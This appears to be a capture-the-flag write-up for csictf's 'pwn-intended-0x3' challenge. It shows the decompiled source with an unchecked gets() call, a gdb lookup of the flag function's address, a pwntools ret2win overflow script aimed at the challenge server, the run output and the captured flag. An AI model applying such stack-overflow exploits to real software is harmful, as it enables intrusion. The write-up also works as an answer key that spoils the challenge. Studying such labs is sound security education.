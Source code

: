 ## pwn-intended-0x3
The main idea finding the flag is overwrite the correct hex after padding.

#### Step-1:
After I downloaded `pwn-intended-0x3`, I reversed it with IDA, I got this source code:

**main()** function:
```c
undefined8 main(void)

{
  char local_28 [32];

  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to csictf! Time to teleport again.");
  gets(local_28);
  return 0;
}
```

**flag()** function:
```c
void flag(void)

{
  puts("Well, that was quick. Here\'s your flag:");
  system("cat flag.txt");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

#### Step-2:
I just had to write the address of the flag function after 32+8 bytes.

So I tried using Debugger to get the address of the flag.

```bash
echo into functions | gdb ./pwn-intended-0x3 | grep flag
```
I got this output: `0x00000000004011ce  flag`

#### Step-3:
I wrote a very common `rev_exploit.py` to pwn into the machine.

```python
import pwn

r = pwn.remote('chall.csivit.com', 30013)

payload = "A"*40 + '\xce\x11@\x00\x00\x00\x00\x00'

r.sendline(payload)
r.interactive()
```

#### Step-4:
When I finally ran this `python3 rev_exploit.py`, I got this output:

```bash
[+] Opening connection to chall.csivit.com on port 30013: Done
[*] Switching to interactive mode
Welcome to csictf! Time to teleport again.
Well, that was quick. Here's your flag:
You've reached your destination, here's a flag!
csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}[*] Got EOF while reading in interactive 
$
[*] Interrupted
```
Voila! I got the flag there.

#### Step-5:
Finally the flag becomes:
`csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}`